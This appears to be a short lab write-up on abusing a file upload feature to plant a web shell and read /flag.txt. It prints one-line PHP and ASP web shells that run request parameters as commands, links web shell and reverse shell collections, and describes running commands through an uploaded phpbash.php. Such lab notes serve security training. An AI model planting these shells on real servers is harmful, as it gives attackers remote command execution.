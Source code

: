 # Upload Exploitation

Try to exploit the upload feature to upload a web shell and get the content of /flag.txt
---

Usefull shells:
- https://github.com/Arrexel/phpbash
- https://github.com/danielmiessler/SecLists/tree/master/Web-Shells
- ```php
  <?php system($_REQUEST['cmd']); ?>
  ```
- ```php
  <?php system($_GET['cmd']); ?>
  ```
- `.NET`:
  ```asp
  <% eval request('cmd') %>
  ```

`Reverse shells`:
- https://github.com/pentestmonkey/php-reverse-shell
- https://github.com/danielmiessler/SecLists/tree/master/Web-Shells

---

## Uploading the Web Shell  

We uploaded the web shell `phpbash.php`:  

![image](https://github.com/user-attachments/assets/96804962-33fd-43e2-9d9c-c411de360d86)  

Using the web shell, we executed commands and successfully resolved the lab:  

![image](https://github.com/user-attachments/assets/664b66f6-8fc1-4244-86e5-9278a9e74e8f)  


---

## Manual web shell

![image](https://github.com/user-attachments/assets/24adc2d4-5f1a-43b7-8a6e-eaa48f5f55d2)
![image](https://github.com/user-attachments/assets/6db29bbc-36a8-4d2c-aecd-2c5d8ddba559)








